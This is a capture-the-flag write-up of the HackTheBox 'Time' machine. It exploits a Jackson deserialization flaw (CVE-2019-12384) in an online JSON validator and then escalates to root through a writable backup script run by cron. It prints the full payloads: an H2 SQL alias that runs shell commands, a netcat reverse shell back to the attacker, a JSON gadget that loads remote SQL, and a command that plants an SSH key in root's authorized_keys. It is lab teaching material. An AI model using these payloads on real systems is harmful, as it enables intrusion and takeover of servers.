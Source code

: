 ```yaml
---
title: Hackthebox - Time
date: 2020-10-25 00:00:00 +0530
categories: [hackthebox, linux]
tags: [jackson 2.9.9.1, cve-2019-12384, cronjob]     # TAG names should always be lowercase
image: /assets/img/posts/time/time_banner.png
---
```



![](/assets/img/posts/time/time_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.214 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.214`
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
```

## Web_server

**Title:** **Online JSON parser :** What is JSON PARSER ONLINE? JSON PARSER ONLINE lets you parse JSON string into a pretty and colorful JSON tree view. It parse JSON String and converts it into a human readable format string.

* there are two options 

  **Option1:** **Beautify:** convert JSON single string code into a JSON tree view.

  **Option2:** **Validate (beta!):** Validates a JSON string against RFC 4627 (The application/json media type for JavaScript Object Notation) and against the JavaScript language specification.

  * **Error in Validate (beta!) option**

    when Validate with normal text string it through an error

	    Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN

  *this error not indicate any vulnerability, this error occurs because of the serialization of a Javascript object. All String values MUST be enclosed in double quotes in JSON.*
  
  *if we sent same string inside double quotes it works fine.*

* But the Error tells that the server using JACKSON JSON parser,
  
  **[Jackson](https://github.com/FasterXML/jackson) :** Jackson is a high-performance JSON processor for Java. More than that, Jackson is a suite of data-processing tools for Java (and the JVM platform), Jackson has been known as "the Java JSON library" or "the best JSON parser for Java".
  
  *this server using Jackson library for deserializing JSONs*
  
**vulnerability :** de-serialization vulnerability CVE-2019-12384

**Jackson gadgets - Anatomy of a vulnerability** doyensec.com [Report](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

*an attacker may leverage this de-serialization vulnerability to trigger attacks such as Server-Side Request Forgery (SSRF) and remote code execution.*

* **attack**

  this attack produce in 2 steps
  
  * **First**, serve the inject.sql INIT file through a simple http server,
  * **Second**, call the script from the server.
  
# User Exploit

**First**, create **inject.sql**  
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun0> 4141 >/tmp/f')
```

**Second**, serve the inject.sql INIT file through a simple http server

    sudo python -m SimpleHTTPServer 80
	  
**Third**, code that pass into the validate option
```json
[
   "ch.qos.logback.core.db.DriverManagerConnectionSource",
   {
      "url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://<tun0>/injection.sql'"
   }
]
```
**Fourth**, open nc

    nc -nvlp 4141

**shell**,

```bash
listening on [any] 4141 ...
connect to [10.10.15.151] from (UNKNOWN) [10.10.10.214] 54528
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
pericles@time:/var/www/html$
```

* **user flag**

	  pericles@time:/var/www/html$ cat ~/user.txt
	  cat ~/user.txt
	  76086ade************************

# Local Enumeration

running lipeas found a script owned by user pericles
```bash
[+] .sh files in path
You own the script: /usr/bin/timer_backup.sh
```

**timer_backup.sh**

	pericles@time:/home/pericles$ ls -lsh /usr/bin/timer_backup.sh
	ls -lsh /usr/bin/timer_backup.sh
	-rwxrw-rw- 1 pericles pericles 88 Nov 18 04:00 /usr/bin/timer_backup.sh

	pericles@time:/home/pericles$ cat /usr/bin/timer_backup.sh
	cat /usr/bin/timer_backup.sh
	#!/bin/bash
	zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip

* script specified some root task that means script is running as root
  * this script backup complete server directory in root
* script is running in every ~10sec and after that script get reset

# Root Exploit

*putting any reverse-shell in the `timer_backup.sh` to get a root shell doesn't works properly because script exits as soon as it executed and so shell too.*
*simplest way to get proper root shell is to put ssh key in the script so that we can ssh as root.*

## public ssh key

* create ssh key: `ssh-keygen -f time`
* copy public ssh key: `cat time.pub`

	  ssh-rsa AAAA...ZXMk=

* put ssh key in `timer_backup.sh` script

	  echo "echo 'ssh-rsa AAAA...ZXMk=' >> /root/.ssh/authorized_keys" > /usr/bin/timer_backup.sh

* ssh in: `chdom 600 time`

	  ssh -i time root@10.10.10.214
	  
	  root@time:~# cat root.txt
	  dffebc49************************

### cron tab that occurs root privesc

`crontab -u root -l`
```bash
*/5 * * * * cp /root/timer_backup.sh /usr/bin/timer_backup.sh; chown pericles:pericles /usr/bin/timer.sh; chmod 766 /usr/bin/timer_backup.sh
```